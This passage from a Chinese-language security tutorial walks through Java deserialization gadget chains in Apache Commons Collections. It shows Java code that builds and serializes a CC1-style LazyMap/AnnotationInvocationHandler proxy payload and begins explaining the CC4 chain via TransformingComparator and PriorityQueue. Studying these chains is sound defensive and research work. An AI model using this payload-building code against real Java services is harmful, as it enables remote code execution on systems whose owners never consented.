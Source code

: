 ```plain
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);


        serialize(o);
//        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

这就是现在所有的调用链流程图：

[![](assets/1701612311-da79d3ae4cc4696da7e7570634297c13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235539-8c791026-20cc-1.png)

## CommonsCollections4：

在CC4的`commons-collections`版本当中，后续我们提到的利用类`TransformingComparator`中在CC3版本里并没有提供`serializeable`接口，而在CC4.0版本当中对接口进行了添加，所以我们就得到了CC4的反序列化利用链，因为还是在CC链当中，所以也是两种利用方式，命令执行和恶意类加载的代码执行，所以这里我们还是通过`transform`来寻找调用链，依然是两个要求：可以序列化，调用了transform方法，然后我们就找到了`TransformingComparator`类中的compare方法，并且compare方法还非常常见：

[![](assets/1701612311-c2ea50737b71d232c1591c9067fa97bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235548-91e7b634-20cc-1.png)

然后我们就需要找其他类中readObject方法中是否能够调用compare方法，于是我们找到了PriorityQueue类中的`heapify() - > siftDown - > siftDownUsingComparator`
